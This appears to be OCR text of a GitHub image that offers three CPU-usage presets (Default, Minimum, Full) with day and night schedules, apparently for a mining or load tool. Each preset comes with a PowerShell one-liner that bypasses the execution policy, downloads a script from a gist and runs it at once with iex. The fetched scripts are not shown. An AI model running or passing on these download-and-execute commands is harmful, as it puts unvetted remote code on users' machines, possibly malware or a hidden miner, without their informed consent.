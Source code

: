 DEFAULT

75% CPU Usage / 24 Hours
6:30-6:30 Day Session at 50%
7:00-7:00 Night Session at 100%

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/i7-7700/01dc9aa6bb601755ae85b0214cc87458/raw/2a96a3c5f592b91e69d9b7c77928e68afc05d72d/Default.ps1'))"

--------------------------------------------------------------------------

MINIMUM

25% CPU Usage / 24 Hours
6:45-6:45 Day Session at 25%
7:00-7:00 Night Session at 25%

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/i7-7700/bc1eb60c0cded3fa70bf15b78def9e5f/raw/6bd65dc238c02ab9d8fe3698c16d977bdeab4e21/Minimum.ps1'))"

--------------------------------------------------------------------------

FULL

100% CPU Usage / 24 Hours
6:50-6:50 Day Session at 100%
7:00-7:00 Night Session at 100%

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/i7-7700/c507fe6653e637032b03f681a9c4dc1a/raw/b6011af061915951b6dc480a355e34de3178c66c/Full.ps1'))"

--------------------------------------------------------------------------
